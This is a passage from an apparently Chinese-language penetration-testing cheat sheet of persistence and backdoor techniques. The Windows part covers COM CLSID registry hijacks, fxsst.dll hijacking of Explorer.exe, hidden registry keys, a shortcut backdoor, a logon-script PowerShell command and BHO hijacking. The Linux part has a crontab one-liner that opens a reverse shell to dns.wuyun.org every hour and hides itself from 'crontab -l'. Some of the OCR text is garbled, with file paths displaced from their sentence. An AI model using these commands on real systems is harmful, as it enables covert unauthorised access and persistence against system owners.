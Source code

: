 HKCU\\Software\\Classes\\CLSID{42aedc87-2188-41fd-b9a3-0c966feabec1}-
HKCU\\Software\\Classes\\CLSID{fbeb8a05-beee-4442-804e-409d6c4515e9}-
HKCU\\Software\\Classes\\CLSID{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}-
HKCU\\Software\\Classes\\Wow6432Node\\CLSID{BCDE0395-E52F-467C-8E3D-C4579291692E}-

##### 26、Windows FAX DLL Injection

通过DLL劫持，劫持Explorer.exe对的加载 Explorer.exe在启动时会加载(服务默认开启，用于传真服务)将payload.dll保存在，能够实现dll劫持，劫持Explorer.exe对的加载`fxsst.dll``c:\Windows\System32\fxsst.dll``c:\Windows\fxsst.dll``fxsst.dll`

##### 27、特殊注册表键值

在注册表启动项创建特殊名称的注册表键值，用户正常情况下无法读取(使用Win32 API)，但系统能够执行(使用Native API)。

[《渗透技巧——“隐藏”注册表的创建》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%9A%90%E8%97%8F-%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%9A%84%E5%88%9B%E5%BB%BA)

[《渗透技巧——“隐藏”注册表的更多测试》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%9A%90%E8%97%8F-%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%9A%84%E6%9B%B4%E5%A4%9A%E6%B5%8B%E8%AF%95)

##### 28、快捷方式后门

替换我的电脑快捷方式启动参数 POC : [https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Backdoor/LNK\_backdoor.ps1](https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Backdoor/LNK_backdoor.ps1)

##### 29、[Logon Scripts](https://3gstudent.github.io/Use-Logon-Scripts-to-maintain-persistence)

1-

New-ItemProperty "HKCU:\\Environment\\" UserInitMprLogonScript -value "c:\\test\\11.bat" -propertyType string | Out-Null-

##### 30、[Password Filter DLL](https://3gstudent.github.io/Password-Filter-DLL%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8)

##### 31、[利用BHO实现IE浏览器劫持](https://3gstudent.github.io/%E5%88%A9%E7%94%A8BHO%E5%AE%9E%E7%8E%B0IE%E6%B5%8F%E8%A7%88%E5%99%A8%E5%8A%AB%E6%8C%81)

## Linux

##### crontab

每60分钟反弹一次shell给dns.wuyun.org的53端口


#!bash-
(crontab -l;printf "\*/60 \* \* \* \* exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\\rno crontab for \`whoami\`%100c\\n")|crontab --

##### 硬链接sshd


